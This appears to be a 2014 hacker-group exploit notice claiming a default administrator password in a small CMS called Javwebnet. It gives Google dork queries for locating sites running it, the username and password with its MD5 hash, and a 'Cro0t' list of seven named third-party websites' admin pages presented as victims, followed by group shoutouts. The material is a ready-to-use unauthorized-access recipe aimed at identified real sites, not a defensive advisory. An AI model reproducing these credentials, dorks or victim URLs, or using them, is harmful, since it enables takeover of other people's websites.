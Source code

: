 # Javwebnet-CMS-Default-Password-Vulnerability

##### Google Dork
> intext:"web design by javwebnet"
> inurl:"admin/chace.php"
> intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"
+ Date                 : 05/01/2014
+ Exploit Author       : BarrabravaZ
+ Vendor Homepage      : http://www.javwebnet.com/
+ Version              : 1.0
+ Tested on            : Windows, Linux
+ Surabaya Blackhat "Learn to be Better"
+ 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»          Author will be not responsible for any damage.          «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
x
x Issue: 
x Default Password Admin
x 
x Risk level: High
x ~ The remote attacker has the possibility to manage the website. ~
x ~ The remote attacker is able to login into website with access level as admin. ~
x 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[!]###########################################################################[!]
##
## Proof Of Concept:
## http://127.0.0.1/admin/
##
## Username : admin
## Password : 17t17n25a (md5: 3445c774b86384665a5315b30f8a6735)
##
## Cro0t ##
## http://www.nomorsejagad.com/admin
## http://www.decalartworks.com/admin
## http://www.perdanajakarta.com/admin
## http://www.bangkitperdana.com/admin
## http://www.kecapborobudur.com/admin
## http://www.maulidaperdana.com/admin
## http://www.istanabajutidur.com/admin
##
[!]###########################################################################[!]

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[ Thx TO ]
[+] Meninbox wong ganteng unyu2 :D 
[+] Katon --> Was here
[+] Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
[+] Bagfreakz aKa paijo painem hahaha
[+] Gandrunx --> master koding ,ajarin doong kakak..
[+] Ch0c0 terhumanisasi
[+] MyWisdom kakak paling cakep :*
[+] Array --> Mboh wong iki geje nick'e array wkwkwk
[+] Surabayag3tar guruku ('/\')
[+] Mr. DC bang jali :D
[+] Dem1t,Bejat,Morgue,OmJin..
[+] Siti Jubaidah,X'inject,R1O,Angel DOt ID...
[+] Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[++] SurabayaBlackhat [++] Madleets [++] IFC [++] Hiddenc0de [++] devilzc0de [++]
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx